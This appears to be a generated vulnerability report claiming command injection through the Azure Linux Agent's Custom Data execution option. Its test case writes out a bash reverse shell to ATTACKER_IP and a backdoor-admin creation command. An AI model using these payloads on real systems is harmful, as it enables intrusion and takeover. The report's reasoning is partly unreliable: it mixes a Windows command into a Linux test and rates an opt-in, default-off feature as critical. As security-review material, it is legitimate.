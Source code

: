 - Vulnerability List:
    - Vulnerability 1: Command Injection via Custom Data

- Vulnerability Name: Command Injection via Custom Data

- Description:
    1. The Azure Linux Agent configuration file (`/etc/waagent.conf`) contains options `Provisioning.DecodeCustomData` and `Provisioning.ExecuteCustomData`.
    2. If `Provisioning.ExecuteCustomData` is set to 'y', the agent attempts to execute the Custom Data provided during VM provisioning.
    3. If `Provisioning.DecodeCustomData` is also enabled (set to 'y'), the agent decodes the Custom Data from Base64 before execution.
    4. If an attacker can control or manipulate the Custom Data (e.g., through a compromised Azure account or by intercepting provisioning data if HTTP is allowed), they can inject malicious commands into the Custom Data.
    5. When the agent executes this manipulated Custom Data, it will execute the attacker's commands as root, leading to arbitrary code execution.

- Impact:
    - Full system compromise: Successful exploitation allows an attacker to execute arbitrary code with root privileges on the virtual machine.
    - Data breach: Attackers can gain access to sensitive data stored on the VM.
    - System takeover: Attackers can take complete control of the VM, potentially using it for further malicious activities like botnet participation or lateral movement within Azure infrastructure.

- Vulnerability Rank: Critical

- Currently Implemented Mitigations:
    - None: Based on the provided files, there are no explicit sanitization or security checks implemented in the agent code to prevent command injection when executing Custom Data. The configuration options themselves are described in `/code/README.md`, but they are presented as features, not as potential risks with mitigations.

- Missing Mitigations:
    - Input sanitization: The agent should sanitize Custom Data to remove or escape any potentially harmful characters or commands before execution.
    - Sandboxing or secure execution environment: Instead of directly executing Custom Data in a shell, the agent could use a sandboxed environment or a more secure execution method to limit the potential impact of malicious code.
    - Disable by default: `Provisioning.ExecuteCustomData` should be disabled by default to minimize the attack surface. Users who require this functionality should be clearly warned about the security implications and instructed on how to enable it securely.
    - Principle of least privilege: The agent should avoid executing Custom Data as root. If root privileges are absolutely necessary, consider dropping privileges after minimal required operations.

- Preconditions:
    1. `Provisioning.ExecuteCustomData` is enabled in `/etc/waagent.conf` (or the configuration file being used).
    2. Optionally, `Provisioning.DecodeCustomData` is enabled if the attacker wants to provide Base64 encoded commands.
    3. An attacker has the ability to manipulate the Custom Data provided to the VM during provisioning. This could be achieved through compromising Azure accounts, man-in-the-middle attacks (if HTTP is enabled), or other means of intercepting or modifying VM provisioning data.

- Source Code Analysis:
    1. **File: /code/README.md**: This file describes the configuration options, including `Provisioning.ExecuteCustomData` and `Provisioning.DecodeCustomData`. It mentions their functionality but doesn't highlight any security considerations or mitigations.

    ```markdown
    #### __Provisioning.DecodeCustomData__
    _Type: Boolean_
    _Default: n_

    If set, waagent will decode CustomData from Base64.

    #### __Provisioning.ExecuteCustomData__
    _Type: Boolean_
    _Default: n_

    If set, waagent will execute CustomData after provisioning.
    ```

    2. **File: /code/azurelinuxagent/agent.py**:  While this file is the main agent entry point, the actual Custom Data execution logic is likely in the provisioning modules. Further analysis of the provisioning code is needed in subsequent steps (not in the provided PROJECT FILES).

    ```python
    # ... (Snippet from README.md indicates that waagent.conf controls actions)
    A configuration file (/etc/waagent.conf) controls the actions of waagent.
    ...
    ```

    3. **Configuration samples in /code/README.md**: The sample configuration shows that `Provisioning.ExecuteCustomData` is set to 'n' by default, which is a good security practice, but users can enable it.

    ```yml
    Provisioning.DecodeCustomData=n
    Provisioning.ExecuteCustomData=n
    ```

    **Visualization:**

    ```mermaid
    graph LR
        A[Attacker Manipulates Custom Data] --> B{Provisioning.ExecuteCustomData=y?};
        B -- Yes --> C{Provisioning.DecodeCustomData=y?};
        B -- No --> F[Agent Ignores Custom Data];
        C -- Yes --> D[Agent Decodes Custom Data (Base64)];
        C -- No --> E[Agent Uses Custom Data As Is];
        D --> G[Agent Executes Custom Data as Root];
        E --> G;
        G --> H[Arbitrary Code Execution as Root];
    ```

- Security Test Case:
    1. **Pre-requisites:**
        - Deploy an Azure Linux VM instance.
        - Ensure that `Provisioning.ExecuteCustomData=y` is set in `/etc/waagent.conf` on the VM. You can achieve this by creating a custom image with this setting or using a Custom Script Extension to modify the configuration file during VM creation.
        - Ensure that `Provisioning.DecodeCustomData=y` is set in `/etc/waagent.conf` on the VM (optional, but recommended for a more realistic test).
    2. **Attack Simulation:**
        - As an attacker, craft a Custom Data payload that contains a malicious command. For example, to create a backdoor user:

        ```bash
        echo 'net user attacker P@$$wOrd123! /add && net localgroup administrators attacker /add' | base64
        ```
        - For Linux, a simple reverse shell can be used:
        ```bash
        echo 'bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1' | base64
        ```
        Replace `ATTACKER_IP` and `ATTACKER_PORT` with the attacker's listening IP and port.

        - When creating the VM (either through Azure Portal, CLI, or ARM template), provide this crafted Base64 encoded string (or plain text command if `Provisioning.DecodeCustomData=n`) as the Custom Data for the VM.
    3. **Verification:**
        - After the VM is provisioned and the agent has processed the Custom Data, attempt to connect to the VM using the backdoor account (if using the `net user` example) or check for a reverse shell connection on the attacker's listening port (if using the reverse shell example).
        - Check `/var/log/waagent.log` to confirm that Custom Data execution was attempted and if any errors occurred.
        - If the test is successful, the attacker will have achieved arbitrary code execution on the VM.